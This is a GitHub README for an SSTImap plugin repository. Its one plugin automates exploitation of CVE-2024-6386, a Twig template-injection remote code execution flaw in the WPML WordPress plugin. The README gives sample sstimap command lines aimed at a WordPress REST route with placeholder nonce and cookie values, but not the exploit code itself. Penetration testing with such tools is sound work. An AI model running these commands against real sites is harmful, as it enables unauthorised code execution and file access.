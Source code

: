 [SSTImap](https://github.com/vladko312/sstimap) Extra Plugins
======
[![SSTImap 1.2](https://img.shields.io/badge/SSTImap-1.2-green.svg?logo=github)](https://github.com/vladko312/sstimap)
[![Payload count](https://img.shields.io/badge/Plugins-1-green.svg?logo=github)](https://github.com/vladko312/extras)
[![Python 3.13](https://img.shields.io/badge/python-3.13-blue.svg?logo=python)](https://www.python.org/downloads/release/python-3130/)
[![Python 3.6](https://img.shields.io/badge/python-3.6+-yellow.svg?logo=python)](https://www.python.org/downloads/release/python-360/)
[![GitHub](https://img.shields.io/github/license/vladko312/extras?color=green&logo=gnu)](https://www.gnu.org/licenses/gpl-3.0.txt)
[![GitHub last commit](https://img.shields.io/github/last-commit/vladko312/extras?color=green&logo=github)](https://github.com/vladko312/extras/commits/)
[![Maintenance](https://img.shields.io/maintenance/yes/2024?logo=github)](https://github.com/vladko312/extras)

This repository contains SSTImap plugins, which might be useful in some specific cases, but are too situational to include in the main repository.
## Installation:
- Install the latest version of SSTImap.
- Clone this repository inside `plugins/` directory of SSTImap.
>Alternatively, required plugins can be manually saved in `plugins/custom/` directory of SSTImap.
## List of supported plugins
| Plugin                                                                 | Ver.  | RCE | Blind      | Code evaluation | File read | File write |
|------------------------------------------------------------------------|-------|-----|------------|-----------------|-----------|------------|
| [CVE_2024_6386](https://sec.stealthcopter.com/wpml-rce-via-twig-ssti/) | 1.2.3 | ✓   | ✓          | PHP             | ✓         | ✓          |
## Plugin details
- **[CVE_2024_6386](https://sec.stealthcopter.com/wpml-rce-via-twig-ssti/)** - WPML Multilingual CMS Contributor+ RCE via Twig SSTI.

Plugin automates detection and exploitation of [CVE-2024-6386](https://nvd.nist.gov/vuln/detail/CVE-2024-6386) providing post-exploitation capabilities. Correctly set headers `X-WP-Nonce` and `Content-Type` as well as cookies are required for exploitation. Example:
```bash
./sstimap.py -i -e CVE_2024_6386 --data-type json -m POST -H "Content-Type: application/json" -H "X-WP-Nonce: ..." -H "Cookie: ..." -d '{"id":...,"content":"*"}' -u "http://localhost/index.php?rest_route=%2Fwp%2Fv2%2Fpages%2F..."
```
## Developing plugins
New plugins are always welcome in PRs
### Debugging tips
- Use `-e`/`--engine` option with the name of the plugin's class, e.g. `-e CVE_2024_6386` to use a specific plugin
- Use `-p`/`--proxy` option with BurpSuite or a similar tool to see the requests, e.g. `-p http://127.0.0.1:8080`
- Use interactive mode (`-i`/`--interactive`) to preserve settings between runs. Use `run` to run tests and `reload` to reload plugins from disk (e.g. after some changes)
- Use `--data-type fromhex` to provide request body as hex-encoded string with `*` as injection marker, if body format is not supported otherwise, e.g. `--data-type fromhex --data E29885C2AB*C2BBE29885`
#### Example
- Install the latest version of SSTImap
- Copy `CVE_2024_6386.py` plugin to `plugins/custom` inside SSTImap directory
- Run the following command:
```bash
./sstimap.py -i -e CVE_2024_6386 -p http://127.0.0.1:8080 --data-type json -m POST -H "Content-Type: application/json" -H "X-WP-Nonce: ..." -H "Cookie: ..." -d '{"id":...,"content":"*"}' -u "http://localhost/index.php?rest_route=%2Fwp%2Fv2%2Fpages%2F..."
```
- Use `run` command to test the payload
- Edit the payload, use commands `reload` and `run`